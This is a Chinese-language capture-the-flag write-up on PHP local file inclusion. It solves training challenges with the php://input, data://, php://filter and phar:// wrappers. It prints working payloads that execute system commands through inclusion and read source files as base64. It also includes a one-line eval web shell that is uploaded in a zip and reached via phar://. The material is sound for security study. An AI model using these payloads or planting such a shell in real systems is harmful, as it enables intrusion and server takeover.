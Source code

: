 ```yaml
---
title: local file include
tags:
  - CTF
catagories: CTF
date: 2023-10-31 19:42:00
update: 2023-10-31 19:42:00
mathjax: true
---
```

本地文件包含经常配合文件上传使用。即上传图片马->文件包含执行
# PHP伪协议
<center>

|协议|allow_url_fopen|allow_url_include|PHP版本|用法  
|:---:|:---:|:---:|:---:|:---:|  
|php://input|不受限|On||?file=php://input [POST DATA] <?php [代码] ?>|  
|php://filter|不受限|不受限||?file=php://filter/read=convert.base64-encode/resource=xxx.php|  
|zip://、zlib://、bzip://|不受限|不受限|>=php5.3.0|?file=zip://[压缩包绝对路径]%23[压缩包内文件]  
|phar://|不受限|不受限|>=php5.3.0|?file=phar://[压缩包路径]/[压缩包内文件]  
|data://|On|On||?file=data://, ?file=data://text/plain, ?file=data://text/plain;base64,[编码后的php代码]

</center>

```allow_url_fopen```为```On```时，能读取远程文件，例如```file_get_contents()```就能读远程文件  
```allow_url_include```为```On```时，就能使用```include```和```require```等方式包含远程文件  
需要注意的是，zip://伪协议需要安装zlib扩展  
## php://input
### Yulin招新LFI第二题  
打开题目页面，只有一个phpinfo链接  
![题目](./Local%20file%20include/1.png "题目")  
查看*phpinfo*，发现```allow_url_fopen```和```allow_url_include```都为$On$
![phpinfo](./Local%20file%20include/2.png "phpinfo")  
任意包含一个文件，出现提示 *flag在当前目录的某个文件中*  
因此考虑使用```php://input```伪协议执行代码
![post](./Local%20file%20include/3.png "post")  
构造代码```<?php system("ls"); ?>```进行post，得到文件列表，flag显然在flag_195780473.txt中，```cat flag_195780473.txt```得到flag  
![flag](./Local%20file%20include/4.png "flag")
### Yulin招新LFI第五题
打开题目页面，展示了源代码  
![题目](./Local%20file%20include/9.png "题目")  
发现代码逻辑为读取```file```参数传入的文件内容，将其与```I want flag```进行比较，相等则给出flag  
刚开始思路为远程文件包含。在远程服务器建立html文件，内容为```I want flag```，构造payload```?file=http://[remote addr]/payload.html```发现没有作用，考虑使用```php://input```伪协议绕过```file_get_contents```函数  
在burpsuite构建post数据  
![post](./Local%20file%20include/10.png "post")  
成功get flag
![flag](./Local%20file%20include/11.png "flag")  
参考：[CTF bugku web file_get_contents WriteUp](https://zhuanlan.zhihu.com/p/401511726)
## data://
### Yulin招新LFI第三题  
题目页面同上第二题，只有一个phpinfo链接，查看*phpinfo*，发现```allow_url_fopen```和```allow_url_include```都为$On$  
![phpinfo](./Local%20file%20include/2.png "phpinfo")  
重复上题操作，发现题目过滤了```php://input```伪协议  
![hack](./Local%20file%20include/5.png "hack")  
因此考虑使用```data://```伪协议，尝试构造payload```?file=data://text/plain,%20<?php%20system("ls");%20?>```，发现执行成功  
![ls](./Local%20file%20include/6.png "ls")  
直接```cat flag_8491675293.txt```得到flag  
![flag](./Local%20file%20include/7.png "flag")  
## php://fliter
以Yulin招新LFI第四题为例  
题目页面提示flag就在flag.php内
![tips](./Local%20file%20include/8.png "tips")  
但没有显示，因此考虑使用```php://fliter```伪协议直接读取flag.php内容  
![](./Local%20file%20include/6.png "ls")  
得到flag.php内容的base64编码
```base64
ZmxhZ+WwseWcqOi/me+8jOWPr+aYr+iXj+WcqOWTqumHjO+8nyjila/CsNCUwrAp4pWvIOKUu+KUgeKUuw0KPD9waHANCiRmbGFnID0gJ1l1bGluU2Vje04wd195MHVfc2VlX21lITc1MTRXUXp4d30nOw0KPz4NCg==
```
解码得到flag
```php
flag就在这，可是藏在哪里？(╯°Д°)╯ ┻━┻
<?php
$flag = 'YulinSec{N0w_y0u_see_me!7514WQzxw}';
?>
```
## phar://
### Yulin招新LFI第六题   
打开题目，观察链接，推测文件包含时在输入的```file```值后添加了```.php```，因此无法直接构造图片马上传  
![题目](./Local%20file%20include/12.png "题目")  
因此考虑使用压缩包上传木马，构造木马
```php
<?php @eval($_POST['6']);
```
将其压缩为zip上传  
![upload](./Local%20file%20include/13.png "upload")  
打开蚁剑，用```phar://```伪协议直接连接  
![connect](./Local%20file%20include/14.png "connect")  
成功get flag  
![flag](./Local%20file%20include/15.png "flag")  